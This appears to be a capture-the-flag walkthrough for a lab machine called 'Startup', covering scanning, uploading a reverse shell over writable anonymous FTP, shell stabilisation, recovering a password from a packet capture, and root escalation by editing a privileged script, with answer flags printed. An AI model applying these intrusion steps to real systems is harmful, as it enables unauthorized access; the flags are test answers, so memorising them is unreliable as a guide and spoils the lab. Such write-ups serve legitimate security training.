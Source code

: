 # Startup

* IP = 10.10.16.78

## Questions/Tasks:

### Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
* Hmmm 🤔 FTP is running and allows *Anonymous* login
* Let's try that first..
* Directory listing:
![Screenshot](./ftp.png)
* Get notice.txt, important.jpg and .test.log from the ftp server
* .test.log seems to be useless
* Contents of notice.txt:
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
* Note the name **Maya**
* important.jpg looks like this:<br>
![Picture](./important.png)
* Only thing we get in the webpage:
![Screenshot](./http.png)
* Lets check gobuster for any other directories:

### GoBuster Scan Results:
```bash
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/files (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)

```
* Inside /files we have:(looks like the same directory as FTP)
![Screenshot](./http2.png)
* So, we can upload a reverse shell over FTP and return back at the webpage at /files!!
![Screenshot](./ftp2.png)
![Screenshot](./1.png)
![Screenshot](./2.png)

* Stabilize the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
Ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* Finding the files:
```bash
find / -name *.txt 2>/dev/null
```
![Screenshot](./3.png)
* Aww!! 🥰 ❤️

1. What is the secret spicy soup recipe?<br>

**Ans-love**

* Some folders that doesn't belong to root, that are present:
```bash
drwxr-xr-x   2 root     root      4096 Nov 12  2020 vagrant
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
```
* *Vagrant* folder seems empty
* But the incidents folder has contents:
```bash
www-data@startup:/incidents$ ls -la
total 40
drwxr-xr-x  2 www-data www-data  4096 Nov 12  2020 .
drwxr-xr-x 25 root     root      4096 Jun 29 04:13 ..
-rwxr-xr-x  1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```
* Lets get that file to local machine and analyze with **Wireshark**
* Remote machine:
```
python3 -m http.server
```
* Local machine:
```
wget http://10.10.16.78:8000/suspicious.pcapng -O suspicious.pcapng
```
* Follow the TCP stream to get the password:
![Screenshot](./4.png)
![Screenshot](./5.png)
* So it turns out **c4ntg3t3n0ughsp1c3** is password for *lennie*
* Navigate to lennie's home directory and get the user flag.
* Hence *Maya* wasn't a valid name and notice.txt & important.jpg were also some distraction stuff!!😮‍💨😮‍💨

2. Contents of user.txt<br>

**Ans-THM{03ce3d619b80ccbfb3b7fc81e46c0e79}**

* There doesn't seem much inside ~/Documents:
```bash
lennie@startup:~$ cd Documents/
lennie@startup:~/Documents$ ls -la
total 20
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
-rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
-rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
lennie@startup:~/Documents$ cat concern.txt
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
lennie@startup:~/Documents$ cat list.txt
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
lennie@startup:~/Documents$ cat note.txt
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
lennie@startup:~/Documents$
```
* **sudo -l** doesn't work cause we dont know the root password
* **find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null**
* Also doesn't find anything interesting setuid binary to exploit
* Strange files in scripts directory:<br>
![Screenshot](./6.png)
* Lets modify the */etc/print.sh* script:
```
lennie@startup:~/scripts$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
lennie@startup:~/scripts$
```
* Modify like this:<br>
![Screenshot](./7.png)
![Screenshot](./8.png)
* Let it run
* Navigate to /root and get the flag...

3. Contents of root.txt<br>

**Ans-THM{f963aaa6a430f210222158ae15c3d76d}**
